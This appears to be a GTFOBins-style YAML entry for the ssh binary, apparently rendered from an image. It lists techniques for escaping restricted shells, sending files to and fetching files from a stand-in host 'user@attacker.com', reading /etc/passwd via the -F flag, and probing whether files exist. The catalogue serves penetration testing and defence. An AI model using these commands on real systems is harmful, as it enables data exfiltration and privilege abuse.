 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost /bin/bash --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  read file:
    - description: Read strings from text files. Reliability depends on content of files but works well with /etc/passwd
      code: ssh -F /etc/passwd localhost
  file exists:
    - description: Tests whether a file exists.
      code: ssh -i /filename localhost
---
```

